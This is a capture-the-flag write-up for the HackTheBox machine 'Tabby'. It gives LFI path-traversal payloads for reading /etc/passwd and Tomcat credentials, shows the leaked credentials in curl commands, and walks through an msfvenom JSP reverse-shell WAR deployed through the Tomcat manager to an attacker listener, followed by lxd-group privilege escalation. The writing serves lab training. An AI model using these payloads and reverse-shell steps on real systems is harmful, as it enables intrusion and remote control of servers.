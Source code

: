 ```yaml
---
title: HackTheBox - Tabby 
categories: htb LFI lxd
excerpt: | 
  Tabby is an easy difficulty Linux machine. 

feature_text: |
  ## Tabby - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|   256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Mega Hosting
| http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
| http-title: Apache Tomcat
| http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's examine what type of page is with `whatweb` to see more information about it. 
Now we can analize the main page that it is running in http://10.10.10.194 and we will see that it is necesary to add host megahostin.htb to /etc/hosts.

This page is vulnerable to LFI (Local File Inclusion) 'http://megahosting.htb/news.php?file=statement' where we can access interesting files such as:
1. ../../../../etc/passwd
2. ../../../../../proc/net/tcp 

In the last local file we can find all open ports of the machine which we couldn't see them before. With nmap we saw all ports that the firewall didn't filter.


It is important to analize 8080 ports (http://10.10.10.194:8080) and there are critical information:
```
NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". **Users are defined in /etc/tomcat9/tomcat-users.xml**.
```

We can access to tomcat-users.xml but it seems it is not in that directory, so we can install apache2 in a docker to see where is it.

To get a new instance of docker: `docker run --rm -it ubuntu bash`. Install locate tool and apache2 to see where is the file. 

When we catch the credentials, we can access to http://10.10.10.194:8080/host-manager. 

### Exploit vulnerabilities
Now we can upload a .war file to bumped this machine.
1. msfvenom -l payloads \| grep java.
2. Create a .war: `msfvenom -p java/jsp_shell_reverse_tcp LHOST={your ip} LPORT=443 -f war -o reverse.war`
3. List apps: `curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list' `
4. Upload app: `curl -s -u 'tomcat:'$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse' --upload-file reverse.war`
5. Listen at: `nc -lnvp 443`
6. Go to: http://10.10.10.194:8080/reverse
 
### Privilege Scalation
We firts have to find where is user.txt. `find / \-name user.txt 2> /dev/null`. It is on ash user so we have to migrate to ash.
In the directory of /var/www/files/ there is a compress zip that we can crack in local mode. We have to get the file in our computer and crack it.
It give us a new password so... Why not try with ash credentials? Yep, it is the same password.


Now we have to see our goups id. Ejecute: `id` and ash is in lxd group.
Using `searchsploit lxd` let us root access.
